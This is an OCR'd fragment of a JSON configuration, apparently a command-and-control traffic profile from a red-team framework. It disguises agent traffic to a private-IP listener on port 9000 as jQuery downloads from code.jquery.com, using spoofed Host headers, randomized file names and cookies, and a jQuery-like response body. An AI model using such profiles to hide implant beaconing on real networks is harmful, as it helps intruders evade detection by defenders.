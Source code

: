 ```JSON
        "parameters": ["\".(o=t.documentElement,Math.max(t.body[\"scroll\"+e],o[\"scroll\"+e],t.body[\"offset\"+e],o[\"offset\"+e],o[\"client\"+e])):void 0===i?w.css(t,n,s):w.style(t,n,i,s)},t,a?i:void 0,a)}})}),w.each(\"blur focus focusin focusout resize scroll click dblclick mousedown mouseup mousemove mouseover mouseout mouseenter mouseleave change select submit keydown keypress keyup contextmenu\".split(\" \"),function(e,t){w.fn[t]=function(e,n){return arguments.length>0?this.on(t,null,e,n):this.trigger(t)}}),w.fn.extend({hover:function(e,t){return this.mouseenter(e).mouseleave(t||e)}}),w.fn.extend({bind:function(e,t,n){return this.on(e,null,t,n)},unbind:function(e,t){return this.off(e,null,t)},delegate:function(e,t,n,r){return this.on(t,e,n,r)},undelegate:function(e,t,n){return 1===arguments.length?this.off(e,\"**\"):this.off(t,e||\"**\",n)}}),w.proxy=function(e,t){var n,r,i;if(\"string\"==typeof t&&(n=e[t],t=e,e=n),g(e))return r=o.call(arguments,2),i=function(){return e.apply(t||this,r.concat(o.call(arguments)))},i.guid=e.guid=e.guid||w.guid++,i},w.holdReady=function(e){e?w.readyWait++:w.ready(!0)},w.isArray=Array.isArray,w.parseJSON=JSON.parse,w.nodeName=N,w.isFunction=g,w.isWindow=y,w.camelCase=G,w.type=x,w.now=Date.now,w.isNumeric=function(e){var t=w.type(e);return(\"number\"===t||\"string\"===t)&&!isNaN(e-parseFloat(e))},\"function\"==typeof define&&define.amd&&define(\"jquery\",[],function(){return w});var Jt=e.jQuery,Kt=e.$;return w.noConflict=function(t){return e.$===w&&(e.$=Kt),t&&e.jQuery===w&&(e.jQuery=Jt),w},t||(e.jQuery=e.$=w),w});"]
      }
    ],
    "ServerHeaders": {
      "Server": "NetDNA-cache/2.2",
      "Cache-Control": "max-age=0, no-cache",
      "Pragma": "no-cache",
      "Connection": "keep-alive",
      "Content-Type": "application/javascript; charset=utf-8"
    },
    "ServerCookies": {},
    "AgentMessage": [{
      "urls": ["http://192.168.205.151:9000"],
      "uri": "/<test:string>",
      "urlFunctions": [
        {
          "name": "<test:string>",
          "value": "",
          "transforms": [
            {
              "function": "choose_random",
              "parameters": ["jquery-3.3.1.min.js","jquery-3.3.1.map"]
            }
          ]
        }
      ],
      "AgentHeaders": {
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Host": "code.jquery.com",
        "Referer": "http://code.jquery.com/",
        "Accept-Encoding": "gzip, deflate",
        "User-Agent": "Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko"
      },
      "QueryParameters": [
        {
          "name": "q",
          "value": "message",
          "transforms": [
          ]
        }
      ],
      "Cookies": [
        {
          "name": "__cfduid",
          "value": "",
          "transforms": [
            {
              "function": "random_alpha",
```